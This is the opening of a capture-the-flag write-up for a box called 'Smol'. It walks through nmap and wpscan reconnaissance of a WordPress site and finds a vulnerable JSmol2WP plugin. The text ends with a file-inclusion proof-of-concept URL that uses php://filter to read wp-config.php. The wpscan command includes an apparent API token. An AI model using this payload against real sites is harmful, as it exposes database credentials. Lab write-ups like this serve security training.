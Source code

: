 # Write-up: **Smol**
Smol is a medium-ranked CTF box that introduces us to vulnerable Wordpress plugins, highlighting the need for website owners to keep dependencies up-to-date and to consider the source and reputation of installed plugins. The vulnerable web front-end then allows the execution of code on the web server, allowing to obtian a foothold on the system. Ultimately, root access is obtained through a combination of poorly managed passwords and misconfigurations.

## Reconaissance
The first step is to scan the host for open ports and find out about services that are offered. With `nmap`, we scan the 1000 most popular ports.
```
nmap -sV smol.thm
```
As the result shows us, two ports are open, offering the service SSH and a webpage.
```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.9 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

When we try to visit the website, we get redirected to `www.smol.thm`, which is unknown to our domain server. Subsequently, we add the domain to our `/etc/hosts` file, allowing us to open the page.

![Initial view of webpage](img/Smol-InitialWebpage.png)

As we can see on the bottom of the page, the website is powered by the Wordpress framework. Therefore we should definitely run `wpscan` on the blog. Registering on WPScan's [official webpage](https://wpscan.com/) allows you to additionally make use of API tokens, which enables `wpscan` to access the WordPress Vulnerability Database, basically allowing your scan to automatically detect vulnerable plugins and themes. With the free-plan, you get 25 tokens per day.
```
wpscan --url www.smol.thm --api-token WEHKBQUrGbrJWLv7F7yWCJoZkARqtYlh1DDnsZ46n6E
```
Among others, we are able to identify the follwing vulnerability.
```
 | [!] Title: JSmol2WP <= 1.07 - Unauthenticated Server Side Request Forgery (SSRF)
 |     References:
 |      - https://wpscan.com/vulnerability/ad01dad9-12ff-404f-8718-9ebbd67bf611
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-20463
 |      - https://www.cbiu.cc/2018/12/WordPress%E6%8F%92%E4%BB%B6jsmol2wp%E6%BC%8F%E6%B4%9E/#%E5%8F%8D%E5%B0%84%E6%80%A7XSS
```
Following up the first link, we can see a proof of concept allowing us to include files on the server into the rendered webpage.
```
http://localhost:8080/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php
```
